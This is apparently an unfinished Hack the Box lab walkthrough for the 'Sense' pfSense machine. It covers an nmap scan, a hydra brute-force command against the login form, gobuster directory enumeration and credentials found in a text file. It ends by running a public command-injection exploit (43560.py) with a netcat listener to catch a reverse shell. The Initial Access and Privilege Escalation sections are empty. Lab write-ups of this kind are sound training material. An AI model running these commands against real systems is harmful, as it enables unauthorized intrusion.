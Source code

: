 ```yaml
---
title: Sense(I) - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sense(I).png
---
```

---
title: 2024-10-12-Sense(I) - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Sense(I).png
---
#manual #OpenBSD #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.60
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 14:04 EDT
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 63.82% done; ETC: 14:07 (0:01:15 remaining)
Nmap scan report for 10.10.10.60
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.20 seconds

```

The scan gives us an initial and potentially our only attack vector via web. Solving this box, I know this is the case. In the future, though, I'd recommend running `nmap -sT` or `nmap -sU` coupled with `full` in order to tackle all TCP and UDP ports if you've got the time and means!
### Enumeration

![Image](/assets/Screenshot 2024-09-09 at 2.12.09 PM.png)

We're led to this login portal, and a few things to note here. The importance of default credentials goes without saying. Do your research. Also, be wary of exhausting attempts and forcing a lockout on a machine. Should you want to see as a POC, run:

````
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.60 https-post-form "/index.php:__csrf_magic=sid%3A44c8728e26d47be027a7a01c98089e974f010329%2C1577594299&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect"
````

You'll get stiffed after 15 attempts. After research, we find default credentials for the service are `admin` and `pfsense`, being USER/PASS. These do not work, and it forces us to enumerate web directories.

Using gobuster, we'll use:


```
gobuster dir -u https://10.10.10.60 -x php, txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -k
```

Where the `-x` denotes filetypes, and the `-k` tells gobuster to skip SSL verification. This machine hammers home the importance of intentional enumeration and patience. You have to know what it is you're looking for, and be willing to be patient in receiving it.


We can navigate to the directories that seem interesting. While perusing through, `system-users.txt` dropped some creds!

![Image](/assets/Screenshot 2024-09-09 at 2.24.51 PM.png)

Using these, we are able to gain access to the initial portal.

![Image](/assets/Screenshot 2024-09-09 at 2.26.21 PM.png)

Now that we've got more detailed information about versions, lets cross check with `searchsploit`.

![Image](/assets/Screenshot 2024-09-09 at 2.29.08 PM.png)

This one detailing versions before 2.1.4 seems to be a good pick. We can move it to our present directory by using: `searchsploit -m 43560.py`. Now let's see what's happening under the hood.

![Image](/assets/Screenshot 2024-09-09 at 2.33.16 PM.png)

The `status_rrd_graph_img.php` is vulnerable to command injections. The script seems to be passing the shell through parameters in the function, and it's our job to catch it with a listener. So, lets set one up.

`rlwrap nc -nlvp 4321`

Once again, the `rlwrap` establishes control with the arrow keys in the shell granted.

`python3 43560.py --lhost 10.10.14.3 --lport 4321 --rhost 10.10.10.60 --username rohit --password pfsense
`
This will configure our parameters for passing the shell through the header with the python script.





### Initial Access
### Privilege Escalation
